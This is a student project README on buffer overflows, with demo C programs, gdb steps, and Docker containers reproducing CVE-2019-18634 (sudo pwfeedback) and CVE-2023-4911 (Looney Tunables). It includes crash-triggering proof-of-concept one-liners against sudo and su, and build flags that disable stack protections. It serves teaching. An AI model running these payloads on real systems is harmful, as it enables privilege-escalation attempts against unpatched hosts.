 [![Review Assignment Due Date](https://classroom.github.com/assets/deadline-readme-button-22041afd0340ce965d47ae6ef1cefeee28c7c493a6346c4f15d667ab976d596c.svg)](https://classroom.github.com/a/am3xLbu5)

# Buffer Overflows

### Buff Guys

Elias Xu, Jakob Weir, Julien Diamond

### Video Link:
https://drive.google.com/file/d/16Ehy6xjaqWnT9RKWWJ_A0T3JmKKmbP7R/view?usp=sharing

### Project Description:

This project aims to give a brief description of the cybersecurity concept of buffer overflows and show some demos, along with real life exploits.

Since C is the programming language that is easiest to show / understand memory overwrites and buffer overflows, we'll be using that for the project. However, we'd be using the stuy computers and dockerfiles to replicate the exact environment that is needed to run these exploits.

### Instructions:

There are multiple different different programs that are in this.

`working_demo.c`

`working_demo.c` is a proof of concept (POC) of the concept of buffer overflows. It's a simply strcopy that doesn't check for size, which can overflow the buffer.

To run, use these following commands:

```sh
# run whatever you want, you can overflow the buffer if you enter more than ~5 characters
make working_demo ARGS=aaaaaaaa
```

`changing_variable.c`

`changing_variable.c` demonstrates how buffer overflow can change / overwrite a variable name. When one overflows the buffer, the following variable's value will be overwritten, which is detected by the program and printed to output. 

To run, use these following commands:

```sh
# this will hopefully overwrite the buffer, changing the variable
make variable_change
> msksmadsmfnadsf
```

`function_pointing.c`

`function_pointing.c` demonstrates the use of gdb and how one can overwrite functions to perform actions that are not intended by the writers of the program (in this case, of course, it's fully intended, but let's ignore that). By default, the normal function will run, but through overwriting of variables the special or the other function can be run.

There are two functions that can be substituted into the program, one which uses simple piping while the other one uses more complex payloads. 

To run, use/execute these following commands:

```sh
make function_pointing
gdb functions
# inside gdb find the function pointers either for the special function or the other function
# then you could either do a run <<< python -c "print('A' * 13 [enough to overflow] + pointer code)"
# or first write that into a payload and then insert it into the run function
```

`demo2-4.c`

`demo2-4.c` similarly uses buffer overflow to call a special function, but it overwrites the return address of another function rather than the pointer to originally call the function.

to run:
```
gcc demo2-4.c -o demo2-4 -zexecstack -fno-stack-protector -no-pie -g
gdb demo2-4
(gdb) disas specialFunctions
# find the memory address of specialFunctions
(gdb) quit
# create input consisting of 16 filler bytes + memory address of specialFunctions
./demo2-4 < input.txt
```

`pwfeedback`

`pwfeedback` recreates the CVE-2019-18634 vulnerability, where when enabling the pwfeedback option for sudo (which makes * when you enter your password can lead to buffer overflows). The container cannot spawn a root shell, but the POC of the vulnerability does exist. 

To run the docker container and see the POC:

```sh
make deploy_pwfeedback
# inside the container run the show the seg fault
perl -e 'print(("A" x 100 . "\x{00}") x 50)' | ./sudo -S id
```

`loony`

`loony` recreates the CVE-2023-4911 vulnerability, also called Looney Tunables, which exploits a coding issue in glibc to cause some shenanagins. Just as in pwfeedback, the exploit code to get the root shell doesn't work here, but it does allow you to run the POC. However, tryhackme has a working attackbox that allows you to run the exploit, which we'll demonstrate. 

to run the docker container and see the POC:

```sh
make deploy_loony
# inside the container run the show the seg fault
env -i "GLIBC_TUNABLES=glibc.malloc.mxfast=glibc.malloc.mxfast=A" "Z=`printf '%08192x' 1`" /usr/bin/su --help
```

### Resources/ References:

- https://en.wikipedia.org/wiki/NOP_slide
- https://nvd.nist.gov/vuln/detail/cve-2019-18634
- https://y3a.github.io/2021/03/03/sudo-cve-analysis/
- https://tryhackme.com/room/looneytunes
- https://blog.qualys.com/vulnerabilities-threat-research/2023/10/03/cve-2023-4911-looney-tunables-local-privilege-escalation-in-the-glibcs-ld-so 
- https://www.picussecurity.com/resource/blog/cve-2023-4911-looney-tunables-local-privilege-escalation-vulnerability 
- https://tryhackme.com/room/bof1 
- https://l1ge.github.io/tryhackme_bof1/ 
- https://medium.com/@cyberlarry/walkthrough-tryhackme-buffer-overflows-task-7-overwriting-function-pointers-ac1336979261
- https://iamalsaher.tech/posts/2020-02-08-cve-2019-18634/ 
- https://stackoverflow.com/questions/4700998/explain-stack-overflow-and-heap-overflow-in-programming-with-example
- https://computerarcheology.com/Virus/MorrisWorm/?utm_source=chatgpt.com
